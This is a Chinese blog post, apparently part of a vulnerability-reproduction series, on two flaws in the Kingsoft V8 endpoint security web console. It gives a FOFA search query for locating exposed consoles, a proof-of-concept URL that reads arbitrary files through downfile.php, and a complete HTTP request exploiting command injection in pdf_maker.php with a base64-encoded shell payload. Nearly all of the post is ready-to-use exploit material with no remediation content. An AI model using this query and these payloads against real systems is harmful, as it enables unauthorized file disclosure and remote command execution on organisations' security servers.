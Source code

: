 ```yaml
---
title: Kingsoft-K8-vulnerability
tags:
  - 漏洞复现
categories:
  - 漏洞复现
copyright: true
abbrlink: 6b98c3b0
date: 2021-07-12 23:52:57
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)
<!--more-->

### 金山 V8 終端安全系统任意文件读取漏洞

FOFA

`title="在线安装-V8+终端安全系统Web控制台"`

POC

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![img](https://z3.ax1x.com/2021/07/13/WFHozn.png)

### 金山V8 终端安全系统命令执行漏洞

​	原文：https://mp.weixin.qq.com/s/eQtyY3B8jwVL_n0FaGpQlA

![img](https://z3.ax1x.com/2021/07/13/WFH7Mq.png)

漏洞位置：

`http://xxx.xxx.xxx.xxx//inter/pdf_maker.php`

FOFA

`title="在线安装-V8+终端安全系统Web控制台"`

验证

http://x.x.x.x/inter/pdf_maker.php

url值为经过base64编码后的 `"|| whoami ||`

![img](https://z3.ax1x.com/2021/07/13/WFH5Gj.png)

请求包如下：

```sqlite
POST /inter/pdf_maker.php HTTP/1.1
Host: x.x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0; en_US) Gecko/20100101 Firefox/87.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=ic3v6dkhmff0ljn7pgusad43s0
X-Forwarded-For: 110.110.110.110
X-Originating-IP: 110.110.110.110
X-Remote-IP: 110.110.110.110
X-Remote-Addr: 110.110.110.110
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

url=Inx8IHdob2FtaSB8fA==&fileName=xxx
```

看看连接情况：

![img](https://z3.ax1x.com/2021/07/13/WFHIRs.png)

**Reference**

https://mp.weixin.qq.com/s/eQtyY3B8jwVL_n0FaGpQlA

https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E9%87%91%E5%B1%B1/%E9%87%91%E5%B1%B1%20V8%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%20pdf_maker.php%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

